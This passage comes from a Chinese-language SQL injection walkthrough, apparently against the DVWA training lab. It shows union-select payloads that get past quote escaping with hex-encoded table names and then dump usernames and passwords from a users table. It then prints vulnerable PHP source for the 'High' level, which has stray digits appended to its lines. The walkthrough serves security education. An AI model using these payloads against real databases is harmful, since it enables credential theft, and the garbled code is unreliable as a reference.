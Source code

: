 
抓包更改参数id为1 union select 1,group\_concat(column\_name) from information\_schema.columns where table\_name=’users ’#，查询失败：



[![1.png](http://image.3001.net/images/20161122/14797990065259.png!small)](http://image.3001.net/images/20161122/14797990065259.png)



这是因为单引号被转义了，变成了\\’。



可以利用16进制进行绕过，抓包更改参数id为1 union select 1,group\_concat(column\_name) from information\_schema.columns where table\_name=0×7573657273 #，查询成功：



[![1.png](http://image.3001.net/images/20161122/14797990363415.png!small)](http://image.3001.net/images/20161122/14797990363415.png)



说明users表中有8个字段，分别是user\_id,first\_name,last\_name,user,password,avatar,last\_login,failed\_login。



### **7.下载数据**



抓包修改参数id为1 or 1=1 union select group\_concat(user\_id,first\_name,last\_name),group\_concat(password) from users #，查询成功：



[![1.png](http://image.3001.net/images/20161122/14798013767789.png!small)](http://image.3001.net/images/20161122/14798013767789.png)



这样就得到了users表中所有用户的user\_id,first\_name,last\_name,password的数据。



****High****

------------



服务器端核心代码



```
<?php        
if( isset( $_SESSION [ 'id' ] ) ) {       
    // Get input       
    $id = $_SESSION[ 'id' ];        
    // Check database       
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id LIMIT 1;";       
    $result = mysql_query( $query ) or die( '<pre>Something went wrong.</pre>' );        1
    // Get results       1
    $num = mysql_numrows( $result );       1
    $i   = 0;       1
    while( $i < $num ) {       1
        // Get values       1
        $first = mysql_result( $result, $i, "first_name" );       1
        $last  = mysql_result( $result, $i, "last_name" );        1
        // Feedback for end user       2
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";        2
        // Increase loop count       2
        $i++;       2
    }        2
    mysql_close();       2
}        2
?>
```